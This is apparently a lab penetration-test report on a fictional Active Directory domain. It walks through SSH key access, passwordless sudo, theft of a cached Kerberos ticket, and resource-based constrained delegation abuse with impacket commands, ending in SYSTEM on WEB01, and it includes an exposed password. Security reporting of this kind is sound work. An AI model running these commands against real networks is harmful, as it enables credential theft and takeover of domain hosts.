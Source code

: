 # Privilege Escalation and RBCD Abuse

## Target: 172.16.187.224 → 172.16.187.221 (WEB01)

### 🔓 Initial Access – SSH Key Access

**Vulnerability Explanation:**  
An SSH private key named `ansible` was used to gain access as the `ansible` user.

**Vulnerability Fix:**  
Private SSH keys must be secured. Key-based access should require passphrases and unused accounts should be removed.

**Severity:** High

**Steps to Reproduce:**

```bash
ssh -i id_rsa ansible@dev03.cowmotors-int.com
```

**Result:**

```bash
Welcome to Ubuntu 18.04.6 LTS...
ansible@dev03:~$
```

---

### ⚙️ Privilege Escalation – Sudo Without Password

**Vulnerability Explanation:**  
The `ansible` user was allowed to execute `sudo su` without needing a password.

**Vulnerability Fix:**  
Ensure `sudo` policies do not permit unrestricted escalation without authentication.

**Severity:** Critical

**Steps to Reproduce:**

```bash
sudo su
```

Look in bash history for password
password : Srazqa3xRoVL

**Result:**

```bash
root@dev03:/home/ansible#
```

---

### 🪪 Credential Exposure – Kerberos Ticket Discovery

**Vulnerability Explanation:**  
A Kerberos ticket cache was discovered in `/tmp` belonging to the user `Terence.Ford`, which allowed impersonation.

**Vulnerability Fix:**  
Credential caches should be removed or protected after usage. Proper cleanup policies should be enforced.

**Severity:** High

**Steps to Reproduce:**

```bash
ls /tmp | grep krb5cc
export KRB5CCNAME=./krb5cc_1501201132_t8Rp1H
klist
```

**Result:**

```text
Default principal: Terence.Ford@COWMOTORS-INT.COM
krbtgt/COWMOTORS-INT.COM valid TGT
```

---

### 🧠 BloodHound Finding – GenericWrite Over Computer Object (WEB01)

**Explanation:**  
User `Terence.Ford` had GenericWrite rights over the `WEB01` computer object, allowing us to configure RBCD.

![[Pasted image 20250419084819.png]]

**Attack Plan:**

1. Create a new computer object using the TGT from `Terence.Ford`
    
2. Delegate rights from new object to `WEB01`
    
3. Get ST for `Administrator`
    
4. Use Pass-the-Ticket to gain execution on `WEB01`
    

---

### 🧰 Exploitation Details

**Add Machine Account:**

```bash
impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' cowmotors-int.com/terence.ford -k -no-pass -dc-host dc02.cowmotors-int.com
```

✅ Machine account added.

**Configure RBCD:**

```bash
impacket-rbcd -delegate-from 'myComputer$' -delegate-to 'WEB01$' -action 'write' -k -no-pass COWMOTORS-INT.COM/terence.ford -dc-ip 172.16.187.101
```

✅ Delegation modified.

**Get Service Ticket:**

```bash
impacket-getST -spn cifs/WEB01.cowmotors-int.com -impersonate Administrator cowmotors-int.com/MyComputer$:h4x
```

✅ Ticket saved to: `Administrator@cifs_WEB01...ccache`

**Export Ticket:**

```bash
export KRB5CCNAME=Administrator@cifs_WEB01.cowmotors-int.com@COWMOTORS-INT.COM.ccache
```

---

### 🖥️ Final Access – PsExec via Pass-the-Ticket

**Steps to Reproduce:**

```bash
impacket-psexec -k -no-pass cowmotors-int.com/Administrator@WEB01.cowmotors-int.com
```

**Result:**

```text
C:\Windows\system32>
```

✅ SYSTEM-level access on `WEB01`

---

### ✅ Post-Exploitation Summary

- Verified full SYSTEM shell on `WEB01`
    
- No user disruption observed
    
- No persistence or backdoors left behind
    

---

### 🛠️ Recommendations

- Revoke unnecessary GenericWrite rights in Active Directory
    
- Secure Kerberos ticket caches and enforce cleanup
    
- Rotate privileged credentials
    
- Remove inactive or misconfigured user accounts
    

---

### 📌 Conclusion

By exploiting GenericWrite on `WEB01`, we leveraged Resource-Based Constrained Delegation and Pass-the-Ticket techniques to impersonate `Administrator` and execute code with SYSTEM privileges. This highlights critical misconfigurations in account permissions and Kerberos delegation policies.
